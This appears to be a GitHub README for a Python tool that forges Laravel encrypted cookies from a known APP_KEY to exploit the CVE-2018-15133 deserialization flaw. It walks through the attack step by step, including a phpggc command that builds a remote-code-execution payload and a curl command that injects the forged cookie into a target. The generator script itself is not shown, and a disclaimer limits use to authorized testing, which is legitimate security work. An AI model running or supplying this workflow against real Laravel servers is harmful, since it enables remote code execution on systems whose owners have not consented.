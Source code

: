 # 🔐 Laravel Cookie Generator – Exploiting APP_KEY-based Deserialization

This tool helps you generate **valid Laravel encrypted cookies** using a known `APP_KEY` and a custom PHP serialized payload (e.g., from `phpggc`).  
It is mainly used in the context of **insecure deserialization vulnerabilities** like [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133).

---

## 📌 Purpose

When an attacker can obtain the `APP_KEY` of a Laravel application (via `.env` file, misconfigured endpoint, LFI...), they can:

- Forge a signed and encrypted cookie  
- Inject malicious PHP objects for remote code execution  
- Bypass cookie integrity checks (HMAC)

---

## 🛠️ Features

- AES-256-CBC encryption compatible with Laravel  
- SHA256 HMAC generation  
- Outputs base64-ready string for direct injection  
- Works with any phpggc-generated payload

---

## 🧪 Usage Example

### 1. Generate a payload with [phpggc](https://github.com/ambionics/phpggc)

```bash
php phpggc Laravel/RCE1 system 'uname -a' > payload.txt
```

### 2. Install dependencies

```bash
pip install pycryptodome
```

### 3. Run the generator

```bash
python3 gen_laravel_cookie.py
```

This will output a cookie like:

```css
[+] Laravel Cookie to inject:
eyJpdiI6IkxWbWdn... (base64 string)
```

### 4. Inject the cookie (with curl or Burp)

```bash
curl -k --cookie "XSRF-TOKEN=eyJpdiI6..." http://target-ip:port/
```

---

## 🔑 Requirements

- Python 3.6+
- pycryptodome
- A valid Laravel APP_KEY (base64 format)

---

## ⚠️ Disclaimer

This tool is provided for educational and authorized penetration testing purposes only.  
Do not use it against systems you do not have explicit permission to assess.

---

## 📂 File Structure

```bash
laravel-cookie-generator/
├── gen_laravel_cookie.py     # The main script
├── payload.txt               # Serialized payload (input)
├── README.md                 # This file
└── images/
    └── demo.png              # Optional screenshot
```

---

## ✉️ Author

Tool developed by a security researcher passionate about web exploitation, deserialization, and Active Directory attacks.  
Feel free to contribute, fork, or open an issue!
